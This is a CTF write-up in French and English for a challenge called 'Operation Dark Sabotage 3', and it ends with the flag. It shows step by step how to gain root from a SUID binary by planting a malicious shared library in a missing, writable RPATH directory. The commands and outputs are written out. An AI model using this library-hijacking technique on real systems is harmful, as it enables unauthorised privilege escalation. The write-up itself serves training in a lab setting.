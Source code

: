 # Operation Dark Sabotage 3

## Write-up FR

On constate que le binaire `exploit_me` est un exécutable `SUID`, ce qui suggère qu'il peut être exploité.

En l'analysant avec Ghidra, on remarque qu'il appelle la fonction `print_hello`. Cependant, cette fonction n'est pas présente dans le binaire lui-même, ce qui signifie qu'elle provient d'une bibliothèque partagée.
On va donc regarder les libs utilisés par le binaire : 
```bash
$ ldd exploit_me 
        linux-vdso.so.1 (0x00007fff661a9000)
        libprint.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007260cec4b000)
        /lib64/ld-linux-x86-64.so.2 (0x00007260cee68000)
```
On voit la lib `libprint.so `. Examinons cette lib :
```bash
$ objdump -T libprint.so 

libprint.so:     file format elf64-x86-64

DYNAMIC SYMBOL TABLE:
0000000000000000  w   D  *UND*  0000000000000000  Base        _ITM_deregisterTMCloneTable
0000000000000000      DF *UND*  0000000000000000 (GLIBC_2.2.5) puts
0000000000000000  w   D  *UND*  0000000000000000  Base        __gmon_start__
0000000000000000  w   D  *UND*  0000000000000000  Base        _ITM_registerTMCloneTable
0000000000000000  w   DF *UND*  0000000000000000 (GLIBC_2.2.5) __cxa_finalize
0000000000001120 g    DF .text  0000000000000010  Base        print_hello
```
La fonction `print_hello` y est bien présente.

Le binaire ne trouve pas `libprint.so`, donc nous devons vérifier où il s'attend à la trouver :
```bash
$ readelf -d exploit_me 

Dynamic section at offset 0x2da8 contains 29 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libprint.so]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000f (RPATH)              Library rpath: [/home/c-3po/libs/]
...

$ ls -l /home/c-3po/libs/
ls: cannot access '/home/c-3po/libs/': No such file or directory
```
Le `RPATH` est défini sur `/home/c-3po/libs/`, mais ce dossier n'existe pas. 
Cependant, on a un accès en écriture sur `/home/c-3po/`.
On va donc créer le dossier `libs` et mettre une lib `libprint.so` malveillante avec une fonction `print_hello` :
```bash
$ mkdir /home/c-3po/libs/
$ gcc -shared -fPIC -o libs/libprint.so evil.c
$ ldd exploit_me 
        linux-vdso.so.1 (0x00007ffeb6525000)
        libprint.so => /home/c-3po/libs/libprint.so (0x000077db16ed7000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x000077db16cc1000)
        /lib64/ld-linux-x86-64.so.2 (0x000077db16ee3000)
$ ./exploit_me 
# whoami 
root
```

## Write-up EN

We observe that the `exploit_me` binary is a `SUID` executable, which suggests it may be exploitable.

By analyzing it with Ghidra, we notice that it calls the `print_hello` function. However, this function is not present within the binary itself, meaning it comes from a shared library.
We check which shared libraries the binary relies on :
```bash
$ ldd exploit_me 
        linux-vdso.so.1 (0x00007fff661a9000)
        libprint.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007260cec4b000)
        /lib64/ld-linux-x86-64.so.2 (0x00007260cee68000)
```
We see that libprint.so is a required library. Let's examine it :
```bash
$ objdump -T libprint.so 

libprint.so:     file format elf64-x86-64

DYNAMIC SYMBOL TABLE:
0000000000000000  w   D  *UND*  0000000000000000  Base        _ITM_deregisterTMCloneTable
0000000000000000      DF *UND*  0000000000000000 (GLIBC_2.2.5) puts
0000000000000000  w   D  *UND*  0000000000000000  Base        __gmon_start__
0000000000000000  w   D  *UND*  0000000000000000  Base        _ITM_registerTMCloneTable
0000000000000000  w   DF *UND*  0000000000000000 (GLIBC_2.2.5) __cxa_finalize
0000000000001120 g    DF .text  0000000000000010  Base        print_hello
```
The `print_hello` function is indeed present in the library.
Since `libprint.so` is not found, we need to determine where the binary expects it to be :
```bash
$ readelf -d exploit_me 

Dynamic section at offset 0x2da8 contains 29 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libprint.so]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000f (RPATH)              Library rpath: [/home/c-3po/libs/]
...

$ ls -l /home/c-3po/libs/
ls: cannot access '/home/c-3po/libs/': No such file or directory
```
The `RPATH` is set to `/home/c-3po/libs/`, but this directory does not exist.
Since we control this path, we can create the missing directory and place a malicious `libprint.so` containing a modified `print_hello` function :
```bash
$ mkdir /home/c-3po/libs/
$ gcc -shared -fPIC -o libs/libprint.so evil.c
$ ldd exploit_me 
        linux-vdso.so.1 (0x00007ffeb6525000)
        libprint.so => /home/c-3po/libs/libprint.so (0x000077db16ed7000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x000077db16cc1000)
        /lib64/ld-linux-x86-64.so.2 (0x000077db16ee3000)
$ ./exploit_me 
# whoami 
root
```

## Flag

`polycyber{d3str0y_4ll_th3_dr01ds}`
